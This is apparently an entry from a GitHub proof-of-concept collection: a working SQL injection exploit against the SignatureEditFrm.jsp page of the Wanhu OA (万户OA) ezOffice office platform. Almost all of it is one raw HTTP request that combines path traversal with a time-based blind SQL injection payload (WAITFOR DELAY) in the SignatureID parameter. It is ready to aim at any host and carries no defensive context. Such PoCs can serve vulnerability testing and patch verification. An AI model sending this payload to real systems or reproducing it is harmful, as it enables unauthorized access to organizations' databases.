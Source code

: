 # wanhu_SignatureEditFrm_sqli
product: 万户OA

```
GET /defaultroot/iWebOfficeSign/OfficeServer.jsp/../../public/iWebRevision.jsp/Signature/SignatureEditFrm.jsp?SignatureID=1;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Connection: close
```

from: https://github.com/wy876/POC/blob/main/%E4%B8%87%E6%88%B7OA/%E4%B8%87%E6%88%B7ezoffice%E5%8D%8F%E5%90%8C%E5%8A%9E%E5%85%AC%E5%B9%B3%E5%8F%B0SignatureEditFrm%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
